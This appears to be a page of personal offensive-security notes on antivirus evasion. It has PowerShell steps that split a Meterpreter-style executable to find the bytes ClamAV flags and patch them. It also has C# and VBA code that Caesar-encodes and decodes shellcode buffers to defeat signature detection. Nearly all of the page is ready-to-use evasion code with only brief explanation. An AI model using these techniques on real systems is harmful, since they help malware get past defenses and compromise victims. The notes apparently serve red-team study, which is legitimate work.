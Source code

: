 layout: page
title: "av-evasion"
permalink: /av-evasion

# AV evasion
Falls into 2 main methods or categories

## Signature based detection
AV software scans files usually when they are downloaded or right before execution. This method relies on matching known malicious signatures to a file. 

### Locating and fixing signatures

```
Import-Module .\Find-AVSignature.ps1

Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force

# Now use clamscan to check which byte sequences are flagged
.\clamscan.exe C:\Tools\avtest1

# Change byte offset to evade av
# Sometimes modifying exact byte won't produce results and byte before or after needs to be changed.
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

### Custom shellcode encryption

#### Caesar encryption

```
namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                }
                
            byte[] encoded = new byte[buf.Length];
            for(int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
            
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
			foreach(byte b in encoded)
			{
			    hex.AppendFormat("0x{0:x2}, ", b);
			}

			Console.WriteLine("The payload is: " + hex.ToString());
		}
	}
}	
```
#### Caesar decryption
```
byte[] buf = new byte[752] {0xfe, 0x4a, 0x85, 0xe6, 0xf2...

for(int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
```

#### Caesar encryption for VBA
```
using System;
using System.Runtime.InteropServices;
using System.Text;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                }


            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
            uint counter = 0;
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("{0:D}, ", b);
                counter++;
                if(counter % 50 == 0)
                {
                    hex.AppendFormat("_{0}", Environment.NewLine);
                }
            }

            Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```

#### Caesar decryption for VBA
```
For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i
```